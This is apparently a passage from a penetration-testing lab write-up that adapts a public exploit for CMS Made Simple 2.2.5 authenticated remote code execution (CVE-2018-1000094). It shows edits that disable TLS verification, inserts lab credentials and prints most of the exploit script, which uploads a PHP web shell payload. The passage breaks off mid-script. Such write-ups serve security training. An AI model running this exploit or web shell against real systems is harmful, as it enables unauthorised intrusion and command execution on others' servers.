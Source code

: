 ```hlt:"verify=False"
...
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
...
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
...
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
...
```

Replace authentication credentials with the valid creds we have. 

```
username = "admin"
password = "HUYfaw763"
```

Modified exploit containing the required changes for our case

```hlt:12,15,16,20,21,34,55,80
# Exploit Title: CMS Made Simple 2.2.5 authenticated Remote Code Execution
# Date: 3rd of July, 2018
# Exploit Author: Mustafa Hasan (@strukt93)
# Vendor Homepage: http://www.cmsmadesimple.org/
# Software Link: http://www.cmsmadesimple.org/downloads/cmsms/
# Version: 2.2.5
# CVE: CVE-2018-1000094

import requests
import base64

base_url = "https://10.11.0.128/admin"
upload_dir = "/uploads"
upload_url = base_url.split('/admin')[0] + upload_dir
username = "admin"
password = "HUYfaw763"

csrf_param = "__c"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]

def authenticate():
    page = "/login.php"
    url = base_url + page
    data = {
        "username": username,
        "password": password,
        "loginsubmit": "Submit"
    }
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        print "[+] Authenticated successfully with the supplied credentials"
        return response.cookies, parse_csrf_token(response.headers['Location'])
    print "[-] Authentication failed"
    return None, None

def upload_txt(cookies, csrf_token):
    mact = "FileManager,m1_,upload,0"
    page = "/moduleinterface.php"
    url = base_url + page
    data = {
```